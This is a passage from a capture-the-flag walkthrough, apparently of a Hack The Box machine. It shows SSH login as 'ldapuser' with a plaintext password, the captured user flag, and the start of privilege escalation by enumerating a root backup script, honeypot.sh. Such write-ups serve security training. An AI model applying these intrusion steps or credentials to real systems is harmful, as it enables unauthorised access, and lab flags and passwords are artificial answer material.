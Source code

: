 2. Login as `ldapuser` via `ssh`:
   ```console
   ssh -l ldapuser 10.10.10.122
   ldapuser@10.10.10.122's password: e398e27d5c4ad45086fe431120932a01
   ```
   - `ldapuser` shell:
     ```sh
     id
     # uid=1000(ldapuser) gid=1000(ldapuser) groups=1000(ldapuser) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

     cat user.txt
     # 74a8e86f3f6ecd8010a660cfb44ee585
     ```

---

## PART 4 : Privilege Escalation (ldapuser -> root)

1. Enumerate the system using `ldapuser` shell:
   ```sh
   ls -lah /
   # ...
   # drwxr-xr-x.   2 root root 4.0K Jun 18 20:16 backup
   # ...

   ls -lah /backup
   # ...
   # -rw-r--r--.  1 root root   32 Jun 18 20:13 backup.1560881581.zip
   # -rw-r--r--.  1 root root   32 Jun 18 20:14 backup.1560881641.zip
   # -rw-r--r--.  1 root root   32 Jun 18 20:15 backup.1560881701.zip
   # -rw-r--r--.  1 root root   32 Jun 18 20:16 backup.1560881761.zip
   # -rw-r--r--.  1 root root   32 Jun 18 20:17 backup.1560881821.zip
   # -rw-r--r--.  1 root root    0 Jun 18 20:17 error.log
   # -rwxr--r--.  1 root root  975 Oct 23  2018 honeypot.sh
   ```
   __NOTE(S)__:
   - There is a script named `honeypot.sh`
   - __backup__ files seem to be generated every minute

2. Check what `honeypot.sh` does:
   ```sh
   # get banned ips from fail2ban jails and update banned.txt
   # banned ips directily via firewalld permanet rules are **not** included in the list (they get kicked for only 10 seconds)
   /usr/sbin/ipset list | grep fail2ban -A 7 | grep -E '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}' | sort -u > /var/www/html/banned.txt
   # awk '$1=$1' ORS='<br>' /var/www/html/banned.txt > /var/www/html/testfile.tmp && mv /var/www/html/testfile.tmp /var/www/html/banned.txt

   # some vars in order to be sure that backups are protected
   now=$(date +"%s")
   filename="backup.$now"
   pass=$(openssl passwd -1 -salt 0xEA31 -in /root/root.txt | md5sum | awk '{print $1}')

   # keep only last 10 backups
   cd /backup
   ls -1t *.zip | tail -n +11 | xargs rm -f

   # get the files from the honeypot and backup 'em all
   cd /var/www/html/uploads
   ```